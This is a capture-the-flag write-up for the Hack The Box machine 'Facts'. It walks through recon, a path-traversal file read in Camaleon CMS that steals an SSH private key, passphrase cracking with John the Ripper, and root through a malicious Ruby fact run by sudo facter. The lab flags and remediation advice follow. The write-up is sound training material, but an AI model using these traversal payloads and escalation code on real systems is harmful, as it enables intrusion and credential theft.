# Lab Report - Facts


# Overview 
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://app.hackthebox.com/machines/Facts
- **Tags**: #CVE #SudoMisconfig  #Web 

## Resolution Summary 
**We started by enumerating open ports with `Nmap`. Next, we found a web application running on HTTP port 80, which had an admin login page and allowed users to register, gaining access to an admin panel. The website was running `Camaleon CMS v2.9.0`, which was vulnerable to `CVE-2026-1776` (arbitrary file read), allowing us to gain access to the SSH server by reading a user's SSH private key and cracking its passphrase with JTR. Finally, we elevated our privileges by exploiting a sudo misconfiguration, which allowed us to use the `facter` binary with `sudo`. Therefore, we retrieved both flags and concluded the testing.**

# Information Gathering 
- **To begin with, we performed an Nmap scan in order to find available services. We added the `-Pn` flag since the target host was blocking ping probes:** 
```bash
sudo nmap 10.129.38.219 -oA nmap_init 
```

- **We found two services available: an SSH server (22) and an HTTP web application (80):** 
<p align="center">
  
</p>

 - **Thus, we decided to perform another (deeper) Nmap scan, enumerating the services' version (`-sV`), executing default NSE scripts (`-sC`) and attempting to guess the target's OS (`-O`):**
```bash
sudo nmap 10.129.40.176 -p22,80 -oA nmap_deep -sV -sC -O
```

- We noticed that we needed to add the website to our hosts file: 
<p align="center">
  
</p>

- **Therefore, before proceeding any further, we added that entry to our host file:** 
```bash
sudo nano /etc/hosts
#Add this on a new line: 10.129.40.176   facts.htb
```

- **After that, we decided to shift our focus to the web application on port 80.** 

## HTTP (80)
- **In the first place, we started by performing some fingerprinting in order to get an overview of the technologies used in the web server.** 

- **We used `whatweb` for that purpose:** 
```bash
whatweb http://facts.htb 
```

- **We obtained the following output:** 
<p align="center">
  
</p>

- **From that, we noticed two important pieces of information:**
	- **After some quick research, Open-Graph-Protocol seems to be commonly exploited for XSS.**
	- **The `X-XSS-Protection[0]` Header disables XSS protection.** 
- **Therefore, such details strongly suggest (at first sight) that we may be going to exploit XSS vulnerabilities.**
	- **Bonus**: it would be interesting to look at the default Nginx configuration (on a test VM), to see if this option is explicitly configured to be 0, or if it was a deliberate choice to set it at that value.

- **Having that in mind, we moved on and performed directory fuzzing with `GoBuster` to find hidden files and directories:** 
```bash
gobuster dir -u http://facts.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 64
```

- **We found a lot of directories, but only 2 seemed to be useful:**
	- **`/sitemap`: provides the (partial) structure of the web application.**
	- **`/admin`: provides access to a login page.**

# Exploitation 
## HTTP (80)
- **Once accessing the login portal at `http://facts.htb/admin`, we found that we were able to create a user:**
<p align="center">
  
</p>

- **We created a user with the following credentials:**
	- **`username:password`**

- **After logging in with our newly created user, we immediately drop into an admin panel:**
<p align="center">
  
</p>

- **Once on that page, we noticed that the web page was running the `Camaleon CMS`, version `2.9.0`.**
- **Naturally, we investigated any exploited related to that version of the CMS, and luckily we found the `CVE-2026-1776` exploit.**
	- **This exploit allows for (authenticated) arbitrary filesystem read.**

- **To exploit this vulnerability, we can build our traversal payload starting from this path:** 
```bash
http://facts.htb/admin/media/download_private_file?file=[traversal path]
```

- **Knowing that, we tested if the exploit worked by attempting to access the `/etc/passwd` file:**
```bash
http://facts.htb/admin/media/download_private_file?file=../../../../../../etc/passwd
```

- **It downloads the file and it confirmed that the exploit worked:**
<p align="center">
  
</p>

- **From there we can note down 2 usernames:** 
	- **`william`**
	- **`trivia`**

- **We attempted to directly grab the user.txt file, which we found in william's home directory:** 
```bash
http://facts.htb/admin/media/download_private_file?file=../../../../../../home/william/user.txt
```

- **And we recovered the `user.txt` file:** 
<p align="center">
  
</p>

- **Since we were at it, we also attempted to access the private keys of these user to gain access to the SSH server.**
- **We were able to retrieve the private key of the `trivia` user by accessing the following location:** 
```bash
http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ed25519
```

- **Upon accessing this URL, the private key was downloaded:** 
<p align="center">
  
</p>

- **We changed the permissions on the key in order to be able to use it:** 
```bash
chmod 600 id_ed25519
```
	- Note: we directly attempted to connect over SSH, but a passphrase was required.

- **Next, we needed to crack the passphrase's key.**
- **For that we relied on John the Ripper. We started by converting it into a hash (format that JTR would accept):**
```bash
ssh2john id_ed25519 > key.hash
```

- **Then we cracked the passphrase with JTR using the `rockyou.txt` wordlist:** 
```bash
john key.hash --wordlist=/home/kali/Downloads/rockyou.txt
```

<p align="center">
  
</p>

- **Finally, we were able to access the SSH server as the `trivia` user with the private key:**
```bash
ssh trivia@10.129.41.10 -i id_ed25519
```
<p align="center">
  
</p>
# Privilege Escalation 
---
- **For privilege escalation, we began by listing binaries we were able to run with `sudo`:**
```bash
sudo -l
```

- **We observed that we were able to run the `facter` binary with `sudo` (no password required)**
 <p align="center">
  
</p>

 - **Our first idea was to check GTFOBins for privilege escalation vectors, and we discovered that we can run a shell written in Ruby using `facter` with elevated privileges.** 
	 - **However, we could not create a shell because of the `use_pty` flag**

- **Next we created an exploit (`read.rb` file) to directly read the root flag:**
```ruby
Facter.add('read') do
  setcode do
    output = `cat /root/root.txt`
    File.write('/tmp/exploit/out.txt', output)
    'done'
  end
end
```

- **Then we ran the program with the following:**
```bash
sudo facter --custom-dir=/tmp/exploit read
```
 <p align="center">
  
</p>

# Trophy
**User.txt → `e412150f497ac31ab57aa8e616ff4b74`** 

**Root.txt → `e8bead554ef46826978cbdbaa7d7fa74`**

# Remediation Summary
- **Update software to their latest version.** 
	- **Here, the CMS was vulnerable to a fairly recent vulnerability (2026).**
- **Restrict read permissions of the web user.**
	- **In our case, we were able to read the private key of another user.**
- **Restrict the use of sudo by at least requesting the user's password.**

# Lessons Learned
- **Here, even with sudo rights, we could not run any script (ex: shell), since the executed code was only running in a pseudo-terminal (because of the `use_pty` flag, which blocks the spawning of interactive shells).**
- **Always take time to understand tools/binaries/frameworks you discover/are not familiar with.** 
	- **This helps with correctly enumerating such elements and understanding their purpose.**

